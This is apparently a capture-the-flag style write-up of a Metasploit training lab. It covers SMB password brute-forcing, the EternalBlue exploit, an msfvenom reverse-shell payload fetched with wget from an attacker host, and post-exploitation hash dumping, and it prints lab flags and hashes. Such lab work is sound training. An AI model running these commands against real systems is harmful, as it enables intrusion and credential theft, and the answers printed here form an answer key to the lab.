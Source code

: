 # Metasploit: Introduction

## Introduction

This room walks you through the process of finding a vulnerability in a system, and exploiting that vulnerability.

## Process

### Task 2: Scanning

This task showed us a few ways to scan systems, including Metasploit modules.

#### Task 2 Questions:

**How many ports are open on the target system?**\
5\
Scanning the target with nmap showed 5 open ports.

**Using the relevant scanner, what NetBIOS name can you see?**\
ACME IT SUPPORT

**What is running on port 8000?**
webfs/1.21

**What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.**\
leo1234\
Searching for smb_login and selecting auxiliary/scanner/smb/smb_login, the ```info``` command shows we need to set SMBUser to "penny", RHOSTS to the target IP, and the PASS_FILE to the password file specified in the first task.\
After setting those with ```set SMBUser penny```, ```set RHOSTS [target IP]```, and ```set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt```, running the module gives us the password ```leo1234```.

### Task 3: The Metasploit Database

This task explained how to use the Metasploit Database, first by starting the PostgreSQL database with the command ```systemctl start postgresql```, then ```msfdb init```.\
You can then check if the database is up by launching ```msfconsole``` and runnning ```db_status```.\
You can also list workspaces using ```workspace```, add workspaces using ```workspace -a NAME```, and delete workspaces using ```workspace -d NAME```.

### Task 4: Vulnerability Scanning

#### Task 4 Questions:
**Who wrote the module that allows us to check SMTP servers for open relay?**\
Campbell Murray\
Searching for smtp relay gives us the scanner/smtp/smtp_relay module. We can select it by running ```use 0```, and then use the ```info``` command to see the relevant information.

### Task 5: Exploitation

**Exploit one of the critical vulnerabilities on the target VM**\
The target machine is vulnerable to the exploit shown in the task images (ms17_010_eternalblue).\
I first open the ```msfconsole```, and search for eternalblue. The first result was the one we need (windows/smb/ms17/010/eternalblue), so I run ```use 0```.\
After running ```info```, I can see that RHOSTS has to be set to the target IP, so I do so with ```set RHOSTS [target IP]```.
I type ```run```, and a meterpreter session is eventually opened.

**What is the content of the flag.txt file?**\
THM-5455554845\
Navigate through commonly used folders, I find the flag file in the user's documents folder (C:\Users\Jon\Documents), showing the contents using ```edit flag.txt```. I can then push the meterpreter session to the background using ```CTRL-Z```.

**What is the NTLM hash of the password of the user "pirate"?**\
8ce9a3ebd1647fcc5e04025019f4b875\
Now that the meterpreter session is in the background, we can leave the eternalblue module and searh for hashdump and windows: ```search hashdump windows``` (because the target machine is a windows machine) to find post/windows/gather/hashdump.\
Using that module, setting SESSION to 1 (my meterpreter session ID, checked by running the ```sessions``` command), and running prints the results we need, where the second hash on the pirate line is the one we are looking for.

### Task 6: Msfvenom

This task walks us through using msfvenom to create a reverse payload, and using that to open a meterpreter session and dump hashes of users on the system.

#### Task 6 Questions:
**Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).**\
We first create the meterpreter payload using ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf```. The example uses port 7777, but I found that port was being used so I used port 7776. I checked this by using ```nmap [AttackBox IP]```.

**Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).**\
This is pretty straight forward, just note that the example wget command is searching for a file named shell.elf, whereas the one we created was named rev_shell.elf. I also made the file executable after transferring it by running ```chmod +x rev_shell.elf```.

**Get a meterpreter session on the target machine.**\
We now have to use Multi Handler to receive the connection: we reopen ```msfconsole```, run ```use exploit/multi/handler```, and set our payload using ```set payload linux/x86/meterpreter/reverse_tcp```. We also set our lhost and lport values to our AttackBox IP and port 7776 respectively.\
I tried to run the file from the target machine directly but found when I switched back to the AttackBox the connection would close, so from the AttackBox I then ssh into the target machine using the credentials provided, became super user with ```sudo su```, and ran the file, establishing the connection.
I then left the meterpreter session running in the background by pressing ```CTRL-Z```.

**Use a post exploitation module to dump hashes of other users on the system.**\
$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0\
Now that we have the meterpreter session running, we can leave the Multi Handler module by running ```back```, and then select the post exploitation module we want: ```use post/linux/gather/hashdump```.\
I checked the ID of the meterpreter session we opened by typing ```sessions```, and then set the session variable using ```set SESSION 1``` (the ID of my meterpreter session was 1).\
Running the post exploitation module by typing ```run``` gave the hashes we wanted!



## Conclusion and Learning Outcomes
This room was a great introduction into how to use the Metasploit framework, and the questions were pretty straight-forward and mostly just asked for terms or commands described in the tasks. 
